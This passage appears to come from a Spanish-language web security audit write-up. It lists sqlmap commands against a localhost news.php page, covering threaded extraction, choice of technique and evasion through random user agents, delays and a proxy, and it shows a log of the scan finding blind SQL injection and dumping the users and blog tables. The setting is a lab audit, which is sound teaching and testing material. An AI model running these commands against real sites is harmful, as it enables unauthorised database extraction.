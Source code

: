 ### Tabla Blog

| ID | Title | Body | DateTime |
|----|-------|------|----------|
| 1 | Introducción a la Seguridad Web | Contenido sobre conceptos básicos... | 2024-01-15 10:30:00 |
| 2 | Vulnerabilidades SQL Injection | Explicación detallada de SQLi... | 2024-01-20 14:15:00 |
| 3 | Mejores Prácticas de Desarrollo | Guía para desarrollo seguro... | 2024-01-25 09:45:00 |

---

## ⚡ Comandos SQLMap Avanzados

### Extracción Optimizada
```bash
# Usar múltiples threads para mayor velocidad
python sqlmap.py -u "http://localhost/news.php?id=1" --threads=10 --batch

# Especificar técnica específica para mayor eficiencia
python sqlmap.py -u "http://localhost/news.php?id=1" --technique=B --batch

# Guardar sesión para reutilizar
python sqlmap.py -u "http://localhost/news.php?id=1" --batch --session-file=audit_session.sqlite
```

### Bypass de Protecciones
```bash
# Usar random User-Agent
python sqlmap.py -u "http://localhost/news.php?id=1" --random-agent --batch

# Agregar delay entre requests
python sqlmap.py -u "http://localhost/news.php?id=1" --delay=2 --batch

# Usar proxy para anonimato
python sqlmap.py -u "http://localhost/news.php?id=1" --proxy="http://127.0.0.1:8080" --batch
```

---

## 📋 Log de Auditoría Completa

### SQLMap - Sesión Completa
```
[10:30:15] [INFO] starting scan
[10:30:16] [INFO] testing connection to target URL
[10:30:17] [INFO] checking if parameter 'id' is dynamic
[10:30:18] [INFO] parameter 'id' appears to be dynamic
[10:30:19] [INFO] heuristic (basic) test shows parameter might be injectable
[10:30:25] [INFO] testing for Boolean-based blind SQL injection
[10:30:35] [INFO] parameter 'id' is vulnerable to Boolean-based blind SQLi
[10:30:36] [INFO] testing for time-based blind SQL injection
[10:30:46] [INFO] parameter 'id' is vulnerable to time-based blind SQLi
[10:30:47] [INFO] enumeration phase started
[10:31:15] [INFO] retrieved database name: 'auditoria_web'
[10:31:45] [INFO] retrieved 2 tables: 'blog', 'users'
[10:32:30] [INFO] retrieved 3 users from 'users' table
[10:33:15] [INFO] retrieved 3 posts from 'blog' table
[10:33:16] [INFO] scan completed successfully
```
